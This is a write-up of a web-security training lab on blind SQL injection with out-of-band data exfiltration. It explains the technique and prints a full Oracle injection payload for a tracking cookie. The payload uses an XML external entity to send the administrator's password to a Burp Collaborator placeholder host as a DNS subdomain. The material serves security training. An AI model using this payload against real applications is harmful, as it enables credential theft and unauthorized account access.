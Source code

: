 # Lab: Blind SQL injection with out-of-band data exfiltration
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Disclaimer
*This room requires Burp Collaborator, which is only usably with Burp Suite Professional.*

So for me this lab is not solvable. But I will explain the idea behind the attack and the payload you could use.

## Solution
The basics of the vulnerability can be found in the writeup of the privious lab ([Blind SQL injection with out-of-band interaction](Blind_SQL_injection_with_out-of-band_interaction.md)).

The task of this lab, is to level this up and actually get some data over this DNS request. For that we could use the following query:
```
TrackingId=' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual) ||'
```

It is pretty much the same like before. The statement creates a DNS request to the collaborator. But this time there is a nested query in the subdomain of the collaborator: `SELECT password FROM users WHERE username='administrator'`

This nested query will be executed and the DNS request will contain a subdomain consisting of the data from the answer of this SQL query.

In Burp Collaborator we would see the DNS request after the following scheme: `PASSWORD.BURP-COLLABORATOR-SUBDOMAIN.burpcollaborator.net`

With the password we could login as administrator and the lab would be solved.
